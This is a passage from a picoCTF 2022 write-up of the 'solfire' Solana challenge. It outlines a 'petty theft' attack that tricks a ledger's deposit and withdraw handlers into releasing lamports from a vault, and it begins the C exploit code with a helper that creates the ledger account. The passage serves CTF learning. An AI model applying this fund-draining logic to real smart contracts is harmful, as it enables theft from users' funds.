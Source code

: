 ## Petty Theft

Let's now attempt the first attack that came to mind in [Part I]({% link _reference/Hacking-101/picoCTF-2022-Greatest-Hits/solfire.md %}):

1. Create the ledger account with `handle_create`
2. Call `handle_deposit` with **both** account 3 and account 4 set to *user*. This will transfer funds from the *user* to *user* while incrementing the ledger's "deposit" record.
3. Call `handle_withdraw` with account 3 as *user* and account 4 as *vault*. If we use the same ledger entry from step 2 then we will be able to withdraw up to the amount of lamports already recorded in the ledger.

Since we know we are left with 9 lamports after step 1, we will just hardcode the transfers to use 9 lamports. For convenience, we will simply use entry #0 in the ledger.

<div class="panel-group">
  <div class="panel panel-info">
    <div class="panel-heading">
      <h3 class="panel-title">
        <a data-toggle="collapse" href="#collapseCode" aria-expanded="false" aria-controls="collapseCode">
        Code for petty-theft <small>(click to expand)</small>
        <i class="glyphicon glyphicon-menu-left pull-right"></i>
        <i class="glyphicon glyphicon-menu-down pull-right"></i>
        </a>
      </h3>
    </div>
    <div id="collapseCode" class="panel-collapse collapse">
<div class="panel-body" markdown="1">

```c
#include <solana_sdk.h>

// required order of params
#define CLOCK 0
#define SYSTEM 1
#define LEDGER 2
#define VAULT 3
#define USER 4
#define SOLFIRE 5

void solfire_create(SolParameters *params, uint8_t ledger_nonce)
{
  sol_log("crEate!");
  
  // There must be exactly 5 addresses
  SolAccountMeta meta[] = {
    {params->ka[CLOCK].key /* clock */, false, false},
    {params->ka[SYSTEM].key /* system */, false, false}, /* must be system */
    {params->ka[LEDGER].key /* ledger */, true, false}, /* "ledger" */
    {params->ka[VAULT].key /* vault */, false, false}, /*not used */
    {params->ka[USER].key /* user */, true, true}, /* funding account - must be writeable, must be signed */
  };

  uint8_t buf[5] = {0};
  buf[0] = 0; //[0-4] code - 0 is `handle_create`
  buf[4] = ledger_nonce; //[4] nonce

  const SolInstruction instruction = {params->ka[SOLFIRE].key /* program */, 
                                      meta, SOL_ARRAY_SIZE(meta),
                                      buf,  SOL_ARRAY_SIZE(buf)};

  sol_invoke_signed(&instruction, params->ka, params->ka_num, (SolSignerSeeds*)0, 0);
}

```